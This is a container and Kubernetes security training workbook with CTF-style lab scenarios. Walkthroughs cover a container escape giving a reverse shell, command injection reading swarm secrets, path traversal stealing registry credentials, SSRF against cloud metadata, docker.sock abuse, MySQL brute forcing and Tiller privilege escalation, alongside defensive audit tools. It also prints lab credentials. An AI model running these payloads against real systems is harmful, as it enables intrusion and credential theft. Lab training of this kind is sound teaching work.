rootin the host system to gain root access for connect back. Run the following command inside CTF vmsysmoncontainer
ps auxx | grep root | grep ping
./injector 2046 payload.bin
- On successful injection of payload, we get a reverse connection at our listener with access to host system outside the container

LSM - Apparmor Nginx Profile
The Linux Security Module (LSM) framework provides a mechanism for various security checks to be hooked by new kernel extensions.
The primary users of the LSM interface are Mandatory Access Control (MAC) extensions which provide a comprehensive security policy. Examples include SELinux, Smack, Tomoyo, and AppArmor.
Demonstration
- Let's run a simple nginx container
docker run --rm -it --name lsm-before -p 4321:80 nginx bash
sh
dash
bash
- Now lets apply the apparmor profile for the container and see if we can perform other operations like
shanddash
cd /opt/docker-nginx
sudo bane sample.toml
docker run --rm -it --name lsm-after \
--security-opt="apparmor:docker-nginx-sample" -p 4320:80 nginx bash
sh
dash
bash
- Have a look at
cat /opt/docker-nginx/docker-nignx-samplefile for the apparmor profile that was created using bane
Attacking swarm cluster secrets
Exploiting Cluster Secrets
In this scenario we will see how we will exploit an application to access docker swarm cluster secrets.
- The application running in the CTF VM has code execution vulnerability
http://CTFVMIP:8080/?domain=;idand is running in docker swarm with secrets attached
Exploiting Cluster Secrets
- The application running in the CTF VM has code execution vulnerability
http://CTFVMIP:8080/?domain=;idand is running in docker swarm as service with attached secrets
- We can access the application container's environment variables using the
printenvcommand by visitinghttp://CTFVMIP:8080/?domain=;printenv
- We can explore the directories further
http://CTFVMIP:8080/?domain=;ls -l /run/
- The secrets are mounted via
docker secretsat/var/run/or/run/. We can access them by visitinghttp://CTFVMIP:8080/?domain=;cat /run/secrets/data_api_key

- A similar approach can be user for
docker swarmandkubernetescluster environments
Attacking private registry images
Attacking Private Registry - Scenario
Organization hosting their infrastructure in containers with help of orchestration and clustering. Organization uses automated deployments using continuous integration and continuous delivery. All the containers will be stored in centralized private registry. Identify the sensitive information from the registry.
Target
165.22.221.65
Attacking Private Registry - Solution
- Understanding the API structure of the docker private registry to list of images
curl 165.22.221.65:5000/v2/_catalog
- Get the list of tags for the images
curl 165.22.221.65:5000/v2/privatecode/tags/list
- Add the insecure-registry flag to download docker image at
vi /lib/systemd/system/docker.service
ExecStart=/usr/bin/dockerd -H fd:// --insecure-registry 165.22.221.65:5000
- Then restart the service
sudo systemctl daemon-reload
sudo service docker restart
- Download the image from private registry
docker pull 165.22.221.65:5000/privatecode:golang-developer-team
- Enter into the container using the below command. Look for interesting file and folders
docker run --rm -it 165.22.221.65:5000/privatecode:golang-developer-team sh
cd /app
ls -la
- Now look at the commit logs for git
git log
- Then revert to the commit where environment variables are there. Then look for files and secrets
git checkout f17a07721ab9acec96aef0b1794ee466e516e37a
ls -la
cat .env
Docker Bench Security Audit
Docker Bench for Security is a shell script to perform multiple checks against the Docker container environment. It will give a detailed view of the security configuration based on CIS benchmarks. This script supports most of the Unix operating systems as it was built based on the POSIX 2004 compliant.
More details about the tool information can be found at https://github.com/docker/docker-bench-security
The following are the high-level areas of checks this script will perform
- Host configuration
- Docker daemon configuration and files
- Docker container images
- Docker runtime
- Docker security operations
- Docker swarm configuration
Running docker bench security
Now lets perform the audit
cd /opt/docker-bench-security
sudo bash docker-bench-security.sh
Container Security Monitoring
Docker Logging
The docker logs command shows information logged by a running container. The docker service logs command shows information logged by all containers participating in a service. The information that is logged and the format of the log depends almost entirely on the container's endpoint command.
Examples
- Fetch the logs of a container
docker logs containername
# follow the stream
docker logs -f containername
- Retrieve logs until a specific point in time
docker run --name testlogs -d ubuntu sh -c "while true; do $(echo date); sleep 1; done"
date
Mon Oct 1 17:12:27 IST 2018
docker logs -f --until=2s testlogs
Mon Oct 1 11:41:36 UTC 2018
Mon Oct 1 11:41:37 UTC 2018
Mon Oct 1 11:41:38 UTC 2018
Reference
Docker Events
Docker events generates real time events from the server.
- Looking for the global events generated by the docker runtime
docker system events
- Filter events based on time
docker events --since '10m'
- Filter events based on images image
docker events --filter 'image=alpine'
- Filter events based on
docker events --filter 'event=stop'
References
Sysdig Falco
Sysdig Falco is an open source container runtime security. It is a behavioral monitoring software designed to detect anomalous activity. Sysdig Falco works as a intrusion detection system on any Linux host, although it is particularly useful when using Docker since it supports container-specific context like container.id, container.image or namespaces for its rules.
Sysdig Falco Logging for Containers
- Run the following command in student VM
sudo falco
- Then start another container and perform operations like executing shell, reading shadow file, etc.
docker exec -it registry sh
cat /etc/passwd
cat /etc/shadow
Falco attack detection based on ruleset
Play with Sysdig Falco Scenario
Sysdig Falco: Container security monitoring
Kubernetes Environment Setup
Kubernetes Cluster Setup
We will setup a Kubernetes cluster in Google Cloud. For this, you will require:
- Ensure
gcloudis configured and able to access your Google Cloud account. This can be verified using
gcloud projects lists
- Ensure you have
helm2symlink pointing to the Helm v2.x binary. The setup script useshelm2to invoke Helm v2.
NOTE: Setting up a cluster in Google cloud may incur cost. Refer to
setup.shon the resources created.
Create Cluster
export STUDENTPROJECTNAME="Google-Cloud-Project-Name"
./setup.sh
The cluster creation script
setup.shwill generate a scriptdestroy.shthat can be used to delete the resources created on Google cloud
The setup.sh will
- Create a Kubernetes cluster on Google cloud using
gcloud - Allocate a static IP address for Ingress
- Deploy vulnerable apps and config
- Generate
kubeconfigfile in current directory - Generate
destroy.shscript to destroy [1] and [2]
Expose Vulnerable Apps
sudo kubectl port-forward -n kube-system svc/nginx-ingress-controller 80:80
The default ingress app-ingress/app-ingress.yml uses host names that resolves to 127.0.0.1. The above command will forward port 80 on localhost to the Nginx Ingress service running inside the cluster.
Destroy Cluster
./destroy.sh
Download Kubernetes Student VM
- http://www.mediafire.com/file/b739545szyrc6i5/kubernetes-security.ova/file
- http://www.mediafire.com/file/asz5xukxg1lhs3r/kubernetes-security.ova.checksum/file
Import VM
-
Click on Virtual Box
File->Import -
Browse to the ova of k8s-security and import the file

-
Click on Import
- Login to the vm using below credentials
username: student
password: hackk8s
Configure the kubectl
- Start Kubernetes student VM
- Copy your configuration file
k8s-training-kubeconfigto/home/student/.kube/config- The file
k8s-training-kubeconfigis generated bysetup.shscript as part of cluster creation
- The file
- Run the below command to confirm that everything works fine
kubectl get pods
Vulnerable Apps
Each student cluster has intentionally vulnerable apps running which will be used during lab scenarios. The apps are available in following URLs
http://mailbox-service.oss-k8s-security.cloudsec.training
http://server-health.oss-k8s-security.cloudsec.training
http://connectivity-check.oss-k8s-security.cloudsec.training
NOTE: All attacks described in this document must be executed from Kubernetes Student VM.
The apps are accessible from Student VM after you setup port forward locally. Open a terminal in Student VM and execute the command below to setup a port forward into the cluster.
sudo kubectl port-forward -n kube-system svc/nginx-ingress-controller 80:80
Now you can navigate to the vulnerable applications by URL given above.
Getting started with Kubernetes
We will get started by following the Kubernetes Basics from the official documentation which is hosted at Kubernetes.io
This tutorial provides a walkthrough of the basics of the Kubernetes cluster orchestration system.
This is an important module to understand and cover because Kubernetes has many technical terms and commands that may be new to the participants.
Each module contains some background information on major Kubernetes features and concepts and includes an interactive online tutorial. This is great for practicing the basics. Did we mention that this is available to all without any charges so you can practice it whenever you feel like it?
These interactive tutorials let you manage a simple cluster and its containerized applications for yourself.
Creating a Cluster
Deploying an App
Exploring Your App
Exposing Your App
Scaling Your App
Updating Your App
The Illustrated Children's Guide to Kubernetes

source: https://www.youtube.com/watch?v=4ht22ReBjno
Introduction to Kubernetes
Why Containers
The Old Way to deploy applications was to install the applications on a host using the operating system package manager. This had the disadvantage of entangling the applications' executables, configuration, libraries and lifecycles with each other and with the host OS. One could build immutable virtual machines(VM) in order to achieve predictable rollouts and rollbacks, but VMs are heavyweight and non-portable.
The New Way is to deploy containers based on operating system level virtualization rather than hardware virtualization. These containers are isolated from each other and from the host
- they have their own filesystem
- they can't see each others processes
- their computational resource usage can be bounded
They are easier to build than VMs, and because they are decoupled from the underlying infrastructure and from the host filesystem, they are portable across public IAAS clouds and OS distributions.
Why Kubernetes
A lot of developers have moved or are moving from a traditional world to a container based ecosystem. This allows developers to package their application code, dependencies and required libraries in a simple container and use it anywhere wherever there is a container runtime available.
An example of a container runtime is Docker
At a minimum, Kubernetes can schedule and run application containers on clusters of physical or virtual machines. However, Kubernetes also allows developers to cut the cord to physical and virtual machines, moving from a host-centric infrastructure to a container-centric infrastructure.
This approach provides the full advantages and benefits inherent to containers. Kubernetes provides the infrastructure to build a truly container centric development environment. This is the primary reason developers love it.
What is Kubernetes
With Kubernetes, you are able to quickly and efficiently respond to customer demand
- Deploy your applications quickly and predictably
- Scale your applications on the fly
- Roll out new features seamlessly
- Limit hardware usage to required resources only
- Our goal is to foster an ecosystem of components and tools that relieve the burden of running applications in public and private clouds
According to Brian Grant Kubernetes is an open-source platform designed to automate deploying, scaling, and operating application containers.
Kubernetes is
- Portable: public, private, hybrid, multi-cloud
- Extensible: modular, pluggable, hookable, composable
- Self-healing: auto-placement, auto-restart, auto-replication, auto-scaling
Google started the Kubernetes project in 2014. Kubernetes builds upon a decade and a half of experience that Google has with running production workloads at scale, combined with best-of-breed ideas and practices from the community.
Additional references for further reading
- https://aucouranton.com/2014/06/13/linux-containers-parallels-lxc-openvz-docker-and-more/
- https://kubernetes.io/docs/concepts/overview/what-is-kubernetes/
Kubernetes Overview
Image source: Khtan66 CC BY-SA 4.0, from Wikimedia Commons
{kind=link}
- To work with Kubernetes, you use Kubernetes API objects to describe your clusters desired state
- You set your desired state by creating objects using the Kubernetes API, typically via the command-line interface,
kubectl - You can also use the Kubernetes API directly to interact with the cluster and set or modify your desired state
- Kubernetes Control Plane works to make the clusters current state match the desired state
- Kubernetes performs a variety of tasks automatically
- such as starting or restarting containers
- scaling the number of replicas of a given application
- and a lot more
Kubernetes Master
The Kubernetes Master is a collection of three processes that run on a single node in your cluster, which is designated as the master node. Those processes are
Kubernetes Node
Each individual non-master node in your cluster runs two processes:
- kubelet, which communicates with the Kubernetes Master
- kube-proxy, a network proxy which reflects Kubernetes networking services on each node
Kubernetes Objects
Kubernetes contains a number of abstractions that represent the state of your system. These abstractions are represented by objects in the Kubernetes API; see the Kubernetes Objects overview for more details.
Basic Objects
The basic Kubernetes objects include:
Higher Level Abstractions
In addition, Kubernetes contains a number of higher-level abstractions called Controllers. Controllers build upon the basic objects, and provide additional functionality and convenience features. They include
Understanding Kubernetes specific technical terms
The below are the very high level description and explanation of terminology used in this book in terms of Kubernetes.
From Kubernetes By Example by the Red Hat OpenShift team
Terms
Pods
A pod is a collection of containers sharing a network and mount namespace and is the basic unit of deployment in Kubernetes. All containers in a pod are scheduled on the same node.
Services
A service is a grouping of pods that are running on the cluster. A Kubernetes Service is an abstraction which defines a logical set of Pods and a policy by which to access them - sometimes called a micro-service. The set of Pods targeted by a Service is (usually) determined by a Label Selector (see below for why you might want a Service without a selector).
Volumes
A Kubernetes volume is essentially a directory accessible to all containers running in a pod. First, when a container crashes, kubelet will restart it, but the files will be lost - the container starts with a clean state. Second, when running containers together in a Pod it is often necessary to share files between those containers. The Kubernetes Volume abstraction solves both of these problems.
Namespaces
Namespaces provide for a scope of Kubernetes objects. You can think of it as a workspace youre sharing with other users. Many objects such as pods and services are namespaced, while some (like nodes) are not. As a developer youd usually simply use an assigned namespace, however admins may wish to manage them, for example to set up access control or resource quotas.
Replication Controllers
A replication controller (RC) is a supervisor for long-running pods. An RC will launch a specified number of pods called replicas and makes sure that they keep running, for example when a node fails or something inside of a pod, that is, in one of its containers goes wrong.
Deployments
A deployment is a supervisor for pods and replica sets, giving you fine-grained control over how and when a new pod version is rolled out as well as rolled back to a previous state.
Labels
Labels are the mechanism you use to organize Kubernetes objects. A label is a key-value pair with certain restrictions concerning length and allowed values but without any pre-defined meaning. So youre free to choose labels as you see fit, for example, to express environments such as this pod is running in production or ownership, like department X owns that pod.
Service Discovery
Service discovery is the process of figuring out how to connect to a service. While there is a service discovery option based on environment variables available, the DNS-based service discovery is preferable. Note that DNS is a cluster add-on so make sure your Kubernetes distribution provides for one or install it yourself.
Health Checks
In order to verify if a container in a pod is healthy and ready to serve traffic, Kubernetes provides for a range of health checking mechanisms. Health checks, or probes as they are called in Kubernetes, are carried out by the kubelet to determine when to restart a container (for livenessProbe) and by services to determine if a pod should receive traffic or not (for readinessProbe).
Environment Variables
You can set environment variables for containers running in a pod and in addition, Kubernetes exposes certain runtime infos via environment variables automatically.
Secrets
You dont want sensitive information such as a database password or an API key kept around in clear text. Secrets provide you with a mechanism to use such information in a safe and reliable way.
Logging
Logging is one option to understand what is going on inside your applications and the cluster at large. Basic logging in Kubernetes makes the output a container produces available, which is a good use case for debugging. More advanced setups consider logs across nodes and store them in a central place, either within the cluster or via a dedicated (cloud-based) service.
Jobs
A job is a supervisor for pods carrying out batch processes, that is, a process that runs for a certain time to completion, for example a calculation or a backup operation.
Nodes
In Kubernetes, the nodes are the worker machines where your pods run.
Replica Sets
ReplicaSet is the next-generation Replication Controller. The only difference between a ReplicaSet and a Replication Controller right now is the selector support. ReplicaSet supports the new set-based selector requirements as Replication Controller only supports equality-based selector requirements.
Stateful Sets
StatefulSet is the workload API object used to manage stateful applications. Manages the deployment and scaling of a set of Pods, and provides guarantees about the ordering and uniqueness of these Pods.
Daemon Sets
A DaemonSet ensures that all (or some) Nodes run a copy of a Pod. As nodes are added to the cluster, Pods are added to them. As nodes are removed from the cluster, those Pods are garbage collected. Deleting a DaemonSet will clean up the Pods it created.
References
- The best way to learn is looking at documentation by Kubernetes Docs
- Glossary for the documentation
Kubectl usage for pentesters
kubectl is a command line interface for running commands against Kubernetes clusters. kubectl is pronounced as cube c t l. Watch this talk for The definitive pronunciation guide :)
We have already added it to the attacker VM already shared with you.
- Getting the kubernetes cluster information
kubectl cluster-info
- Get information from nodes, pods, svc(services), ing(ingress), ns(namespace), deploy(deployments)
kubectl get nodes
kubectl get pods
kubectl get services
Bunch of these commands can use shortcuts. For example the rest of the commands are using their shortcuts.
kubectl get svc
kubectl get ing
kubectl get ns
kubectl get deploy
- Getting more information
kubectl get nodes -o wide
kubectl get pods -o wide
kubectl get svc -o wide
kubectl get deploy -o wide
- Getting detailed information
kubectl describe node <NODENAME>
kubectl describe pod <PODNAME>
kubectl describe svc <SVCNAME>
kubectl describe ing <SVCNAME>
kubectl describe ns <SVCNAME>
kubectl describe deploy <DEPLOYNAME>
- Detailed help for the sub command
kubectl explain pod
- Creating deployment using command line
kubectl run nginxdeployment --image=nginx:alpine
- Port forward the pod to local system
kubectl port-forward <PODNAME> 1234:80
- Deleting pod
kubectl delete pod <PODNAME>
kubectl delete deploy <DEPLOYNAME>
kubectl delete svc <SVCNAME>
kubectl delete ing <INGNAME>
kubectl delete ns <NSNAME>
- Shell into the pod
kubectl exec -it <PODNAME> sh
- Looking for logs (stdout & stderr)
kubectl logs <PODNAME>
kubectl logs -f <PODNAME>
- Combining multiple commands
kubectl get pods,svc
- Specifying with different namepsace
kubectl get pods -n database
- Listing the API resources avialble
kubectl api-resources
- Checking for the permission to do
kubectl auth can-i create pods
- Getting output in YAML format
kubectl get secrets <SECRETNAME> -o yaml
References
Deploying simple application in Kubernetes Cluster
Deploying simple application in Kubernetes Cluster using YAML
- To create a basic nginx deployment with 2 replicas, save this file as
nginx-deployment.yamlusing your text editor
apiVersion: apps/v1
kind: Deployment
metadata:
name: nginx-deployment
spec:
selector:
matchLabels:
app: nginx
replicas: 2
template:
metadata:
labels:
app: nginx
spec:
containers:
- name: nginx
image: nginx:1.7.9
ports:
- containerPort: 80
- Run the apply command to perform the changes in cluster
kubectl apply -f nginx-deployment.yaml
- Get the pods related to this deployment
kubectl get pods --selector app=nginx
- Update the deployment file with
replicasto 3 innginx-deployment.yamlusing your text editor
...
replicas: 3
...
- Apply the changes
kubectl apply -f nginx-deployment.yaml
kubectl get pods --selector app=nginx
- Expose a service within the cluster
- Create a file
nginx-service.ymlwith the following content
apiVersion: v1
kind: Service
metadata:
name: nginx-deployment
spec:
ports:
- port: 80
protocol: TCP
targetPort: 80
selector:
app: nginx
type: ClusterIP
- Create the service in the cluster
kubectl apply -f nginx-service.yml
- Start a
port-fowardto access in-cluster service
kubectl port-forward svc/nginx-deployment 8888:80
- From another terminal, access the service through the port forward
curl http://localhost:8888/
- Delete the deployment
kubectl delete -f nginx-deployment.yaml
- Delete the service
kubectl delete -f nginx-service.yml
References
Deploying simple application in Kubernetes Cluster using Helm Chart
- Deploying an app using basic helm chart, navigate to
sample-nginxhelm chart folder
cd /data/sample-nginx
- Deploy the helm chart by running the following command
helm install --name sample-nginx .
- Access the app using output template
export POD_NAME=$(kubectl get pods --namespace default -l "app.kubernetes.io/name=sample-nginx,app.kubernetes.io/instance=sample-nginx" -o jsonpath="{.items[0].metadata.name}")
kubectl port-forward $POD_NAME 8080:80
- Visit http://127.0.0.1:8080 to use your application
- Change the
values.yamlin the sample-nginx helm chart. Replacetag: alpinewithtag: latest
...
tag: alpine
...
to
...
tag: latest
...
- Upgrade the helm chart with new release
helm upgrade sample-nginx .
- Check the helm chart details and revisions
helm ls sample-nginx
- Deleting the helm chart
helm delete --purge sample-nginx
References
Scenario-1 - Exploiting Private Registry via Misconfiguration
Exploiting Private Registry via Misconfiguration - Scenario
Bob's company has deployed a new mail application for them to use. Alas, this application is riddled with bugs! Most of which arise from default configurations and poor programming practices. There has been speculation that the internal team did not even remove the readme file for this application!
In any case, as an attacker you know that the application is deployed using docker. Can we use a vulnerability to read files that we are not meant to and see what the docker private registry looks like? Who knows what secrets you may find!
Tips
- Endpoint for your attack is
http://mailbox-service.student-uniquename.cloudsec.training. Replaceuniquenamewith your unique name - The login credentials for the application are
username: bobandpassword: bobmailbox README.mdexists- The app is vulnerable to
LFI
Exploiting Private Registry via Misconfiguration - Solution
-
Navigate to the application
http://mailbox-service.student-uniquename.cloudsec.training -
Login to the application using
username: bobandpassword: bobmailbox
- We can see that
README.mddiscloses information regarding the private registry
-
It appears that the
pageparameter is vulnerable to an Insecure Direct Object Reference, potentially allowing us to read other files on the system. -
Let's try out a common payload and see if this IDOR is actually a path traversal vulnerability. We can gain read a local files using payload
qqqqq/../../etc/passwd
- Similarly we can read other sensitive files in the system and find that the system contains
/root/.docker/config.jsonwith payloadqqqqq/../../root/.docker/config.json
-
We can use this docker configuration to pull docker images from private registry. Save the
config.jsonfile onto your system -
Run the following command to configure the docker private registry using configuration file.
docker login -u _json_key -p "$(cat config.json)" https://gcr.io

- Now pull the private registry image to get the backend source code
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
- Inspecting the image using the docker run command
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest sh
ls -la
cat index.js
- Now you can see that we have got the
NASA_DEMO_API_KEYwhich is hard coded in the container image
Discussion
Image Source: https://commons.wikimedia.org/wiki/File:Discussion.png
{kind=link}
Scenario-2 - Attacking Kubernetes Cluster Metadata using SSRF vulnerability
Attacking Kubernetes Cluster Metadata using SSRF vulnerability - Scenario
Applications hosted on the cloud can lead to a whole slew of other problems. Especially, vulnerable ones :)
Bob's company has an application deployed on GCP that allows you to quickly check the health of other web applications on the Internet. The application uses a server side function to connect to the specified URL and let's Bob know if the web app is functioning as expected or not.
Well, the most common problem applications like this face is not sanitizing user input which allows Bob to specify any endpoint (and of course any port) to make the server perform a GET request.
This is bad, yes, but it can be worse for applications on the cloud as you can query the helpful metadata endpoints. That is whole playground for you to explore. Let's see what we can do with this scenario!
Tips
- Endpoint for your attack is
http://server-health.student-uniquename.cloudsec.training. Replaceuniquenamewith your unique name - The login credentials for the application are
username: serveradminandpassword: monitorworld - Useful reference: Google Instance Metadata
169.254.169.254
Attacking Kubernetes cluster Metadata using application SSRF vulnerability - Solution
-
Navigate to the application
http://server-health.student-uniquename.cloudsec.training -
Login to the application using
username: serveradminandpassword: monitorworld
- The application supports functionality to check server health. Let's give
https://icanhazip.comto check the public IP address
- As this setup is running on GCP, we can query the internal metadata using the standard endpoint
http://169.254.169.254/computeMetadata/v1/
- Similarly we can query all the sensitive information, including the Kubernetes secrets and other information related to Cloud Platform
http://169.254.169.254/computeMetadata/v1/instance/attributes/kube-env
- Also, we can find the flag by
http://169.254.169.254/computeMetadata/v1/instance/attributes/flag
59a4c760306d682ca75d690bebb9db0e
Discussion
Image Source: https://commons.wikimedia.org/wiki/File:Discussion.png
Scenario-3 - Testing for the sensitive configurations and secrets in Kubernetes cluster
Testing for the sensitive configurations and secrets in Kubernetes cluster - Scenario
Bob's company has deployed their code base to production Kubernetes cluster. Alas, this application has secrets which gives access to their AWS Cloud and other API endpoints! Most of which arise from default configurations, misconfigurations and bad programming practices. There has been speculation that the team directly deploys code from version control system to production!
In any case, as an attacker you know that the application is deployed in Kubernetes, which contains secrets to access the different cloud provider, API endpoints. Who knows what all secrets you may find!
Tips
- Execute below command to start a shell into the pod to get started
export CODEBASE_POD_NAME=$(kubectl get pods --selector app=code-base -o jsonpath="{.items[0].metadata.name}")
kubectl exec -it $CODEBASE_POD_NAME sh
Testing for the sensitive configurations and secrets in Kubernetes cluster - Solution
Exec into Pod
- Get pod details and login to the
code-basepod using below command
export CODEBASE_POD_NAME=$(kubectl get pods --selector app=code-base -o jsonpath="{.items[0].metadata.name}")
kubectl exec -it $CODEBASE_POD_NAME sh
Kubernetes Service Account
-
Now we can look for sensitive information by navigating the file system
-
Look in the default kubernetes locations
ls -l /var/run/secrets/kubernetes.io/serviceaccount/
cat /var/run/secrets/kubernetes.io/serviceaccount/token
- Explore permissions available to service account using
kubectl auth can-i
kubectl can be downloaded inside the Pod from Install Kubectl
Check Environment
- Check for the environment variables
App Secrets
- Find the app and the
.gitfolder inside it which has old commits containing the sensitive information
cd /app
ls -la
git log
git checkout f17a07721ab9acec96aef0b1794ee466e516e37a
ls -la
cat .env
Discussion
Image Source: https://commons.wikimedia.org/wiki/File:Discussion.png
Scenario-4 - Docker escape using Pod Volume Mounts to access the nodes and host systems
Docker escape using Pod Volume Mounts to access the nodes and host systems - Scenario
Bob's company has a lot of helpful applications for their IT admins. The same developers who built the Server Health Check application, also built a "Connectivity check" application. Well, they obviously re-used the code (who doesn't!) leading to an interesting vulnerability.
Instead of making a web request now, this application makes ping requests to a server that Bob specifies. And we all know the quickest way to make a ping request is to execute the ping command.
Web applications that execute OS commands using user input can fall prey to OS command injection vulnerabilities which would allow an attacker (our dear Bob in this case) to execute any accesible OS command through the user input fields. Oh and it's even more exciting if this application is running on docker!
Let's hack this box and see where we can go from here :)
Tips
- Endpoint for your attack is
http://connectivity-check.student-uniquename.cloudsec.training. Replaceuniquenamewith your unique name - Login to the application using
username: sysadminandpassword: superpowers
Docker escape using Pod Volume Mounts to access the node and host systems - Solution
-
Navigate to the application
http://connectivity-check.student-uniquename.cloudsec.training -
Login to the application using
username: sysadminandpassword: superpowers
- Now try pinging
google.com
- We can see that application is running the
pingsystem command by looking at the output. Let's run some other system command by using a semicolon to separate two commands, as we know it's running in Linux system. For example, providing an input ofgoogle.com; idwould triggerping -c 2 google.com;idin the backend.
-
Now that we have confirmed that the application is vulnerable to a command injection vulnerability. we can execute other commands and do other interesting stuff within this container.
-
Let's explore the file system and other services. Start by looking inside the custom docker container.
;ls -l /custom/docker/
-
Looks like the
docker.sockis mounted from the host system as a volume mount -
Download the docker binary to access this socket and perform docker operations within the container
;wget https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O /root/docker-18.09.1.tgz
- Now let's extract the binary to root system
;tar -xvzf /root/docker-18.09.1.tgz -C /root/
- Now, we can gain access to the host system by running the following docker commands
;/root/docker/docker -H unix:///custom/docker/docker.sock ps
;/root/docker/docker -H unix:///custom/docker/docker.sock images
Discussion
Image Source: https://commons.wikimedia.org/wiki/File:Discussion.png
Scenario-5 - Attacking applications in different namespaces in Kubernetes cluster
Attacking applications in different namespaces in Kubernetes cluster - Scenario
Bob's friend in IT, Kevin manages the Kubernetes cluster for his company along with his teammate James. It's a little sad, but Kevin and James do not share their work with each other.
It turns out James has setup a MySQL server on the same Kubernetes cluster but on a different namespace. But given that they are both on the same Kubernetes cluster, they appear to be on the same network! Well that is because, most Kubernetes clusters are setup without network segregation between namespaces.
Can you help Kevin gain access to James' MySQL server to see what shady secrets he has been hiding?
Tips
By default, Kubernetes does not restrict traffic between pods running inside the cluster. This means any pod can connect to any other pod as there are no firewalls controlling the intra-cluster traffic.
- Executing below commands to into the pod to get started
export NET_TOOLS_POD=$(kubectl get pods --selector app=net-tools -o jsonpath="{.items[0].metadata.name}")
kubectl exec -it $NET_TOOLS_POD bash
Attacking applications in different namespaces in Kubernetes cluster - Solution
- Get pod details and login to the
net-toolspod using below command.
export NET_TOOLS_POD=$(kubectl get pods --selector app=net-tools -o jsonpath="{.items[0].metadata.name}")
kubectl exec -it $NET_TOOLS_POD bash
- As MySQL runs on port 3306 by default, we can scan the IP range for this port
nmap -n -Pn -p3306 --open -sS -T5 10.36.4.0/24
- Once we have discovered the MySQL service, we can brute force the credentials to login into the server. We can run a brute force attack using nmap and its scripting engine.
echo root > users.txt
nmap --script mysql-brute 10.36.4.30 -p3306 -T4 --script-args "userdb=users.txt"
- Once the credentials are discovered, we can access the MySQL instance with obtained password within the cluster network in different namespace
mysql -u root -psecret -h 10.36.4.30
- Verify the pods, svc available in the
databasenamespace
kubectl get ns
kubectl get all -n database
Refernces
Discussion
Image Source: https://commons.wikimedia.org/wiki/File:Discussion.png
Scenario-6 - Attacking Helm tiller without RBAC setup
Attacking Helm tiller without RBAC setup - Scenario
Bob has managed to gain access to a pod inside a K8S cluster. Bob knows that the default Kubernetes cluster deployments have very poor Role Based Access Control mechanisms.
Bob knows that he should be able to get the Kubernetes cluster admin access by using Helm and the Tiller service.
Let's help Bob get the cluster admin access out of this cluster!
Tips
- You can run the below command to get shell with enough tools to get cluster admin access
kubectl run -n default --quiet --rm --restart=Never -ti --image=madhuakula/helm-security incluster
Attacking Helm tiller without RBAC setup - Solution
-
Let's assume that you already have access to a pod inside a cluster using an application vulnerability (Ex: Command Injection)
-
Then we can run the below command to deploy simple pod which contains
helmandkubectlbinaries
kubectl run -n default --quiet --rm --restart=Never -ti --image=madhuakula/helm-security incluster
- If we check the version of the helm, it responds with
Error: pods is forbidden: User "system:serviceaccount:default:default" cannot list pods in the namespace "kube-system". Means client not able to establish connection with server
helm version
- Let's telnet to Tiller's default service and port. We can connect to
tiller-deploy.kube-systemon port44134
telnet tiller-deploy.kube-system 44134
Ctrl+C
- Now we can use the helm with host flag to talk to the server
helm --host tiller-deploy.kube-system:44134 version
- Let's try getting the secrets from
kube-systemnamespace using kubectlkubectl get secrets -n kube-system. We can clearly see that we can't get the secrets with default service account attached to this pod
- Let's go ahead and deploy our
pwncharthelm chart
helm --host tiller-deploy.kube-system:44134 install /pwnchart
- Now let's try again to get the secrets from
kube-systemnamespace using kubectlkubectl get secrets -n kube-system.
- We now have full cluster access to do whatever a cluster admin can do
Discussion
Image Source: https://commons.wikimedia.org/wiki/File:Discussion.png
Running kube-bench
kube-bench is a Go application that checks whether Kubernetes is deployed securely by running the checks documented in the CIS Kubernetes Benchmark.
- Master Node Security Configuration
- API Server
- Scheduler
- Controller Manager
- Configuration Files
- etcd
- General Security Primitives
- PodSecurityPolicices
- Workere Node Security Configuration
- Kubelet
- Configuration Files
How to run kube-bench
- We can run kube-bench by navigating to the
cd /data/kube-bench
kubectl apply -f kube-bench-node.yaml
- Check the job status and get the pod name
kubectl get pods --selector job-name=kube-bench-node
- See the kube-bench node scan results by checking the stdout logs
kubectl logs <PODNAME>
Note: Here we are running only for the Kubernetes nodes as this cluster is managed by GCP. We can also run master checks by referring to https://github.com/aquasecurity/kube-bench
Running kubesec.io
Kubesec quantifies risk for Kubernetes resources by validating the configuration files and manifest files used for Kubernetes deployments and operations.
How to run kubesec
- Replace the
${FILE}with the filename which you want to perform the scan
cd /data/kubesec
curl --silent --compressed --connect-timeout 5 https://kubesec.io -F file=@"${FILE}"
- Run for the
insecuredeployment.yaml
apiVersion: v1
kind: Pod
metadata:
name: kubesec-demo
spec:
containers:
- name: kubesec-demo
image: gcr.io/google-samples/node-hello:1.0
securityContext:
privileged: true
readOnlyRootFilesystem: true
curl --silent --compressed --connect-timeout 5 https://kubesec.io -F file=@"insecuredeployment.yaml"
- Run for the
securedeployment.yaml
apiVersion: v1
kind: Pod
metadata:
name: kubesec-demo
spec:
containers:
- name: kubesec-demo
image: gcr.io/google-samples/node-hello:1.0
securityContext:
runAsNonRoot: true
capabilities:
drop: ["ALL"]
add: ["NET_ADMIN", "SYS_TIME"]
readOnlyRootFilesystem: true
runAsUser: 100000
resources:
requsts:
cpu: 20m
memory: 30Mi
limits:
cpu: 10m
memory: 20Mi
curl --silent --compressed --connect-timeout 5 https://kubesec.io -F file=@"securedeployment.yaml"
References
Running kube-hunter
Kube-hunter hunts for security weaknesses in Kubernetes clusters. The tool was developed to increase awareness and visibility for security issues in Kubernetes environments. You should NOT run kube-hunter on a Kubernetes cluster you don't own!
How to run kube-hunter
- IP addresses can be obtained by running the following command
kubectl cluster-info
kubectl get nodes -o wide
- Let's run kube-hunter from outside the cluster as a black box. Select the option
1to perform "Remote Scanning".
cd /data/kube-hunter
./kube-hunter.py
- We can also run the kube-hunter as a active scan within the cluster as well
cd /data/kube-hunter
kubectl apply -f job.yaml
- Get the results by looking at stdout logs of the pod
kubectl get pods --selector job-name=kube-hunter
kubectl logs <PODNAME>
References
Running kubeaudit
kubeaudit is a command line tool to audit Kubernetes clusters for various different security concerns:
- run the container as a non-root user
- use a read only root filesystem
- drop scary capabilities
- don't add new ones
- don't run privileged
- etc.
How to run kubeaudit
- Running the
kubeauditwith all checks
cd /data/kubeaudit
./kubeaudit all
We can also use
kubeauditto fix vulnerabilities in a live cluster*Not recommended for production
References
Logging and Monitoring for Kubernetes
We can get more detailed information about kubernetes and it's resources using built-in commands
- Looking for more information about pods
kubectl describe pod <PODNAME>
- Looking for logs of pods
kubectl logs -f <PODNAME>
- Looking complete information about cluster (to debug and diagnose cluster problems)
